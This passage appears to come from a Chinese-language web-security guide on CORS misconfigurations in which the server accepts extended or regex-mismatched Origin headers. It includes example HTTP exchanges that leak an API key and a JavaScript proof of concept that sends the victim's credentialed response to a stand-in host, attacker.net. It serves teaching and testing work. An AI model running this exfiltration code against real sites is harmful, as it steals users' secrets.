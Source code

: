 ### 扩展的Origin

偶尔，服务器端未过滤原始origin的某些扩展。这可能是由于使用了实现不良的正则表达式来验证origin头导致的。

#### 易受攻击的实现（示例1）

在这种情况下，任何插入到`example.com`前面的前缀都会被服务器接受。

```ps1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[私有API密钥]"}
```

#### 漏洞证明（示例1）

此PoC需要相应的JS脚本托管在`evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

#### 易受攻击的实现（示例2）

在这种情况下，服务器使用了一个正则表达式，其中的句点未正确转义。例如，类似这样的内容：`^api.example.com$`而不是`^api\.example.com$`。因此，句点可以用任何字母替换，从而可以从第三方域获得访问权限。

```ps1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[私有API密钥]"}
```

#### 漏洞概念证明（示例2）

